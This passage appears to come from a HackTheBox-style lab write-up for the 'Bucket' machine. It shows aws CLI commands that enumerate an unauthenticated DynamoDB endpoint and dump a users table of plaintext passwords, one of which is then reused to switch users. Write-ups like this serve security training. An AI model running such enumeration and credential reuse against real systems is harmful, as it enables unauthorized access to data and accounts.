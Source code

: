 Now that we know this is running, we can enumerate it from our machine that already has `aws configure` configured.&#x20;

```
$ sudo aws dynamodb --endpoint-url http://s3.bucket.htb list-tables
{
    "TableNames": [
        "users"
    ]
}
```

The database also allows for unauthenticated access. We can read the stuff within this table:

```
$ sudo aws dynamodb --endpoint-url http://s3.bucket.htb scan --table-name users
{
    "Items": [
        {
            "password": {
                "S": "Management@#1@#"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```

It seems that we have some credentials. The third one worked, and I could `su` to `roy`:

<figure><img src="../../../.gitbook/assets/image (4166).png" alt=""><figcaption></figcaption></figure>
